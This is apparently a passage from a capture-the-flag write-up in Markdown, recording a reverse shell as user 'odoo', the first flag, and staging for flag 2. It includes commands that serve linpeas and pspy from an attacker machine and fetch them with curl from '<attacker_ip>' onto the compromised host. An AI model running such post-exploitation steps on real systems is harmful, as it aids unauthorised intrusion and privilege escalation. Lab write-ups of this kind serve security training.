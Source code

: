 - We have a reverse-shell as the user `odoo`
- The fist flag can be found inside its home directory  
    ![19cc5a0f1ceb479079365559758e19ea.png](../_resources/19cc5a0f1ceb479079365559758e19ea.png)

# Flag 2

Let's get `linpeas` and `pspy` onto the machine

```bash
python3 -m http.server 80 # Attacker machine (run inside linpeas and pspy direcory)
curl <attacker_ip>/linpeas.sh -o linpeas.sh
curl <attacker_ip>/pspy64 -o pspy
chmod 700 linpeas.sh pspy
```

![380da9c6165f8b13d51e22d648c7c0b1.png](../_resources/380da9c6165f8b13d51e22d648c7c0b1.png)
